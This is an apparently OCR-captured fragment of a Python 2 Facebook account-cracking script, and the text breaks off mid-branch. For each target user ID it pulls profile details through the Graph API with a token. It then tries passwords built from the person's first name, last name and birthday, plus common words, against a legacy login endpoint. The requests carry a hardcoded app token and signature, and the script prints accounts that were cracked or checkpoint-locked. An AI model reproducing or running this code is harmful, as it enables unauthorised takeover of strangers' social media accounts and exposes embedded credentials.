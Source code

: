     def main(arg):
        user = arg
        try:
                a = requests.get('https://graph.facebook.com/' + user + '/?access_token=' + toket)
                b = json.loads(a.text)
                pass1 = b['first_name'] + '123'
                data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                q = json.load(data)
                if 'access_token' in q:
                    print '\x1b[1;97m[\x1b[1;92m\xe2\x9c\x93\x1b[1;97m] ' + user + ' | ' + pass1
                else:
                    if 'www.facebook.com' in q['error_msg']:
                        print '\x1b[1;97m[\x1b[1;93m\xe2\x9c\x9a\x1b[1;97m] ' + user + ' | ' + pass1
                    else:
                            pass2 = b['firs_name'] + '12345'
                            data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                            q = json.load(data)
                            if 'access_token' in q:
                                print '\x1b[1;97m[\x1b[1;92m\xe2\x9c\x93\x1b[1;97m] ' + user + ' | ' + pass2
                            else:
                                if 'www.facebook.com' in q['error_msg']:
                                    print '\x1b[1;97m[\x1b[1;93m\xe2\x9c\x9a\x1b[1;97m] ' + user + ' | ' + pass2
                                else:
                                        pass3 = b['last_name'] + '123'
                                        data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                                        q = json.load(data)
                                        if 'access_token' in q:
                                            print '\x1b[1;97m[\x1b[1;92m\xe2\x9c\x93\x1b[1;97m] ' + user + ' | ' + pass3
                                        else:
                                            if 'www.facebook.com' in q['error_msg']:
                                                print '\x1b[1;97m[\x1b[1;93m\xe2\x9c\x9a\x1b[1;97m] ' + user + ' | ' + pass3
                                            else:
                                                    lahir = b['birthday']
                                                    pass4 = lahir.replace('/', '')
                                                    data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                                                    q = json.load(data)
                                                    if 'access_token' in q:
                                                        print '\x1b[1;97m[\x1b[1;92m\xe2\x9c\x93\x1b[1;97m] ' + user + ' | ' + pass4
                                                    else:
                                                        if 'www.facebook.com' in q['error_msg']:
                                                            print '\x1b[1;97m[\x1b[1;93m\xe2\x9c\x9a\x1b[1;97m] ' + user + ' | ' + pass4
                                                        else:
                                                            pass5 = ('sayang')
                                                            data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass5 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                                                            q = json.load(data)
                                                            if 'access_token' in q:
                                                                print '\x1b[1;97m[\x1b[1;92m\xe2\x9c\x93\x1b[1;97m] ' + user + ' | ' + pass5
                                                            else:
                                                                if 'www.facebook.com' in q['error_msg']:
                                                                    print '\x1b[1;97m[\x1b[1;93m\xe2\x9c\x9a\x1b[1;97m] ' + user + ' | ' + pass5
								else:
								    pass6 = ('sayangku')